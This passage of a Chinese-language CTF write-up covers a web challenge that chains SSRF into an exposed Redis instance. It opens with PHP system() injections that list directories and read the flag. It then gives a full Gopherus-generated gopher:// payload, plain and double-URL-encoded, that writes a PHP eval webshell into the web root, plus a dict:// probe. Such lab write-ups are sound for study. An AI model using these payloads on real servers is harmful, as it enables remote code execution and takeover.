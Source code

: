 ```
pass=system('ls /');
```

```
pass=system('tac /f*');
```

## web260

 SSRF+Redis  

- 写webshell
- 写ssh公钥
- 写contrab计划任务反弹shell
- 主从复制

### 方法一

我们写 webshell

```
python gopherus.py --exploit redis
php
<?php eval($_POST[x]);?>
```

```
gopher://127.0.0.1:6379/_%2A1%0D%0A%248%0D%0Aflushall%0D%0A%2A3%0D%0A%243%0D%0Aset%0D%0A%241%0D%0A1%0D%0A%2428%0D%0A%0A%0A%3C%3Fphp%20eval%28%24_POST%5Bx%5D%29%3B%3F%3E%0A%0A%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%243%0D%0Adir%0D%0A%2413%0D%0A/var/www/html%0D%0A%2A4%0D%0A%246%0D%0Aconfig%0D%0A%243%0D%0Aset%0D%0A%2410%0D%0Adbfilename%0D%0A%249%0D%0Ashell.php%0D%0A%2A1%0D%0A%244%0D%0Asave%0D%0A%0A
```

二次url编码 _ 后面的部分

```
gopher://127.0.0.1:6379/_%252A1%250D%250A%25248%250D%250Aflushall%250D%250A%252A3%250D%250A%25243%250D%250Aset%250D%250A%25241%250D%250A1%250D%250A%252428%250D%250A%250A%250A%253C%253Fphp%2520eval%2528%2524_POST%255Bx%255D%2529%253B%253F%253E%250A%250A%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%25243%250D%250Adir%250D%250A%252413%250D%250A%2Fvar%2Fwww%2Fhtml%250D%250A%252A4%250D%250A%25246%250D%250Aconfig%250D%250A%25243%250D%250Aset%250D%250A%252410%250D%250Adbfilename%250D%250A%25249%250D%250Ashell.php%250D%250A%252A1%250D%250A%25244%250D%250Asave%250D%250A%250A
```

### 方法二

```
url=dict://127.0.0.1:6379
```

<img src="图片\Snipaste_2023-02-03_15-01-48.png" alt="Snipaste_2023-02-03_15-01-48" style="zoom:80%;" />
